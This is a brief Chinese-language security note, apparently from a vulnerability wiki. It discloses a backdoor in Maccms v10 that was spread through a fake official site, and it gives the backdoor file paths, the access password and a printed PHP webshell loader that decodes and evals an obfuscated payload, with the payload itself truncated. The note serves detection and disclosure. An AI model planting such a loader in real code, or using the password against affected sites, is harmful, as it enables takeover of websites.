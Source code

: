 ```yaml
---
title: Maccms后门
id: zhfly3009
---
```


# Maccms后门

## 一、漏洞简介

有人假冒苹果cms官网，发布带有后门的程序。

## 二、漏洞影响

version v10

## 三、复现过程

### 后门文件路径

maccms10\extend\upyun\src\Upyun\Api\Format.php

maccms10\extend\Qcloud\Sms\Sms.php

密码 WorldFilledWithLove

### 后门样本

```
<?php
error_reporting(E_ERROR);
@ini_set('display_errors','Off');
@ini_set('max_execution_time',20000);
@ini_set('memory_limit','256M');
header("content-Type: text/html; charset=utf-8");
$password = "0d41c75e2ab34a3740834cdd7e066d90";
function s(){
 $str = "66756r6374696s6r207374…………"; //大马
 $str = str_rot13($str);
 m($str);
}
function m($str){
 global $password;
 $jj = '';
 eval($jj.pack('H*',$str).$jj);
}
s();
?> 
```

![image](../img/f9b30db2ccb5cc1319de94898c7ad3ab.png)